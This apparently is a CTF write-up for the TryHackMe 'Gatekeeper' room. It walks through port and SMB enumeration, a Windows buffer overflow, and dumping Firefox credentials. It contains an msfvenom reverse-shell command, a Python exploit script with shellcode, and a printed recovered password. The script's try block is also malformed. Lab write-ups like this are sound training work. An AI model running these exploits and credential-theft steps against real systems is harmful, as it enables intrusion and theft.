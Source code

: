 ```yaml
---
title: Gatekeeper-writeup-THM
date: 2024-01-03 16:00:00
categories: [room, medium]
tags: [windows, privesc, bufferoverflow]     # TAG names should always be lowercase
image: https://images.unsplash.com/photo-1580047750144-2c7790adf461?q=80&w=2670&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/gatekeeper">Gatekeeper</a>"

First of all we do a nmap scan:

```bash
nmap 10.10.211.241  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-03 08:03 EST
Nmap scan report for 10.10.211.241
Host is up (0.058s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
31337/tcp open  Elite
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49161/tcp open  unknown
49167/tcp open  unknown
```

First of all I am going to enumerate SAMBA

```bash
smbclient -L 10.10.211.241       

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk      

smbclient //10.10.211.241/Users
smb: \> ls
  .                                  DR        0  Thu May 14 21:57:08 2020
  ..                                 DR        0  Thu May 14 21:57:08 2020
  Default                           DHR        0  Tue Jul 14 03:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
  Share                               D        0  Thu May 14 21:58:07 2020

                7863807 blocks of size 4096. 3876514 blocks available
```

In the share directory I have found an exe file, which I am going to transfer in my windows machine.

I setted up my windows machine with Immunity Debugger+ mona.py, and I wrote a script to gain inital access.

I found the offset by writing in the prompt the output of this command:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 700
```

Then after the crash I wrote in the immunity prompt 

```bash
!mona findmsp -distance 700
```

The results will give you the offset.

I found out the bad chars and jump point with mona too.

msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<badchars>" -f c

I then added some NOPs and wrote this python script:

```bash
import socket

ip = "10.10.98.109"
port = 31337

offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16
payload = ("\xdb\xd4\xbb\xde\xb4\xa5\xcc\xd9\x74\x24\xf4\x58\x29\xc9"
"\xb1\x52\x31\x58\x17\x03\x58\x17\x83\x1e\xb0\x47\x39\x62"
"\x51\x05\xc2\x9a\xa2\x6a\x4a\x7f\x93\xaa\x28\xf4\x84\x1a"
"\x3a\x58\x29\xd0\x6e\x48\xba\x94\xa6\x7f\x0b\x12\x91\x4e"
"\x8c\x0f\xe1\xd1\x0e\x52\x36\x31\x2e\x9d\x4b\x30\x77\xc0"
"\xa6\x60\x20\x8e\x15\x94\x45\xda\xa5\x1f\x15\xca\xad\xfc"
"\xee\xed\x9c\x53\x64\xb4\x3e\x52\xa9\xcc\x76\x4c\xae\xe9"
"\xc1\xe7\x04\x85\xd3\x21\x55\x66\x7f\x0c\x59\x95\x81\x49"
"\x5e\x46\xf4\xa3\x9c\xfb\x0f\x70\xde\x27\x85\x62\x78\xa3"
"\x3d\x4e\x78\x60\xdb\x05\x76\xcd\xaf\x41\x9b\xd0\x7c\xfa"
"\xa7\x59\x83\x2c\x2e\x19\xa0\xe8\x6a\xf9\xc9\xa9\xd6\xac"
"\xf6\xa9\xb8\x11\x53\xa2\x55\x45\xee\xe9\x31\xaa\xc3\x11"
"\xc2\xa4\x54\x62\xf0\x6b\xcf\xec\xb8\xe4\xc9\xeb\xbf\xde"
"\xae\x63\x3e\xe1\xce\xaa\x85\xb5\x9e\xc4\x2c\xb6\x74\x14"
"\xd0\x63\xda\x44\x7e\xdc\x9b\x34\x3e\x8c\x73\x5e\xb1\xf3"
"\x64\x61\x1b\x9c\x0f\x98\xcc\xa9\xdd\xb6\x78\xc6\xe3\xb6"
"\x91\x4a\x6d\x50\xfb\x62\x3b\xcb\x94\x1b\x66\x87\x05\xe3"
"\xbc\xe2\x06\x6f\x33\x13\xc8\x98\x3e\x07\xbd\x68\x75\x75"
"\x68\x76\xa3\x11\xf6\xe5\x28\xe1\x71\x16\xe7\xb6\xd6\xe8"
"\xfe\x52\xcb\x53\xa9\x40\x16\x05\x92\xc0\xcd\xf6\x1d\xc9"
"\x80\x43\x3a\xd9\x5c\x4b\x06\x8d\x30\x1a\xd0\x7b\xf7\xf4"
"\x92\xd5\xa1\xab\x7c\xb1\x34\x80\xbe\xc7\x38\xcd\x48\x27"
"\x88\xb8\x0c\x58\x25\x2d\x99\x21\x5b\xcd\x66\xf8\xdf\xed"
"\x84\x28\x2a\x86\x10\xb9\x97\xcb\xa2\x14\xdb\xf5\x20\x9c"
"\xa4\x01\x38\xd5\xa1\x4e\xfe\x06\xd8\xdf\x6b\x28\x4f\xdf"
"\xb9")
postfix = ""

buffer =  overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
    s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
```

After gaining initial access and wondering around a bit I noticed that the only possible thing to do would be getting credentials from Firefox, I used the metasploit tool `post/multi/gather/firefox_creds`

After that I ran firefox_decrypt and got the username and password:

```bash
python3 firefox_decrypt.py  firefox/loot

2024-01-03 10:00:37,134 - WARNING - profile.ini not found in firefox/loot
2024-01-03 10:00:37,134 - WARNING - Continuing and assuming 'firefox/loot' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```